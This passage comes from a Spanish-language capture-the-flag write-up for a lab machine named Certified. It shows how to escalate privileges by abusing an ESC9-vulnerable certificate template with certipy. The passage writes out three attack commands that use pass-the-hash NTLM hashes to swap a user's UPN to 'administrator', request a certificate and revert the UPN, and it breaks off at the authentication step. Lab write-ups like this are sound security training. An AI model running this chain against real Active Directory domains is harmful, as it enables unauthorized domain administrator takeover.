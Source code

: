Enumeramos los privilegios del usuario _ca_operator_ y encontramos que tiene una plantilla vulnerable al ataque **ESC9**.

![certipy](../../../../../assets/certified/certipy.png)

En el [repositorio](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation) encontramos la forma de escalar privilegios.

- 1º Actualizamos el UPN de la víctima (_ca_operator_) para que apunte al `sAMAccountName` del administrador:

```
certipy account -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip '10.10.11.41' -upn 'administrator' -user 'ca_operator' update
```
- 2º Pedimos un certificado abusando de la plantilla insegura usando las credenciales de la víctima:

```
certipy req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```
- 3º Revertimos el UPN de la víctima:

```
certipy account -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip '10.10.11.41' -upn 'ca_operator' -user 'ca_operator' update
```
- 4º Nos autenticamos usando el certificado obtenido:
